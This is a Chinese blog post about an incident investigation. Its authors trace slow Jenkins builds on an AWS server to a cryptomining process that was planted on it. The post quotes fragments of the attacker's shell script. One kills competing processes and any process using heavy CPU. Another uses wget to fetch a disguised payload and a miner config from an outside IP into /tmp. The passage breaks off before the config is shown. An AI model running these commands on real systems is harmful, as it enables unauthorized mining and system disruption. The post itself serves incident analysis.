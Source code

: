 ```yaml
---
title:  你的 CI 在挖矿吗？
date: 2017-06-28
tags:
- 安全
- 持续集成
- DevOps
---
```


我们的持续集成服务器搭建在AWS上的一个EC2的虚拟机中。采用 Jenkins 2.46.1 并且只有一个Master实例来运行所有的任务。且采用持续部署——团队每天要在开发环境自动部署10+个版本。整个过程由Jenkins内部构建的流水线触发。代码提交，测试，构建，部署一气呵成。

我们有一个中心产品代码库，这个中心产品对应着不同国家的在线产品。分别是：新加坡，马来西亚，印度尼西亚和香港。为了安全起见，我们为每一个产品的环境单独部署了一套持续交付流水线。由于各地域产品的差异较小，我们采用同一套基础设施配置初始化Jenkins配置，因此，我们有四台差不多的持续交付流水线。

## 从一次“构建变慢“的调查说起

在周二的时候，突然有人发现”马来西亚“的部署流程开始变慢，其中构建过程从上周的的7分钟左右变成了44分钟。而同样的代码改动，其他国家的服务器并没有如此大的差异。

**那么问题一定在这个服务器上**！

影响构建速度的因素主要是资源的占用导致的等待，这方面的资源包括：CPU、内存、磁盘和网络。

由于我们采用NewRelic对所有的持续集成服务器进行监控。所以可以得到CPU、内存、磁盘和网络的性能监控数据以及横向的对比信息。通过对比相关的数据，我们发现这一台服务器上有个在/tmp目录下运行的叫\`donns\`的陌生进程长期占用大量CPU，它的文件权限属于Jenkins用户以及Jenkins用户组。所以这个程序的执行是由Jenkins出发了。

我们在Jenkins的相关网站里搜索这个名为donns进程的相关信息，但一无所获。于是我们在/tmp目录中寻找和这个进程相关的信息，我们发现了一个陌生的Shell脚本，打开内容看，内容却让我们大跌眼镜。以下是几个重要的脚本片段：

**代码片段 1**:

``` bash
pkill conns

ps auxw|head -1;ps auxw|sort -rn -k3|head -1|awk '{if(\$3\>80.0) print
"kill -9 " \$2}'|sh

pkill bonns
```

我们看到，这段代码杀死了占用CPU超过80%的进程。此外，杀死了名为conns和bonns的进程。

conns进程是什么？bonns进程又是什么？为什么要杀死CPU占用率超过80%的进程？

**代码片段 2**:

``` bash
wget 91.235.143.129:8086/587b626883fdc.png -O /tmp/conn

wget 91.235.143.129:8086/1eac80002f.conf -O /tmp/config.conf
```

从91.235.143.129:8086下载了一个图片和一个配置文件。这个服务器是干嘛的？这个配置文件又包含了哪些内容？

通过在自己的沙盒环境里打开这个配置文件，发现它的内容是这样的：
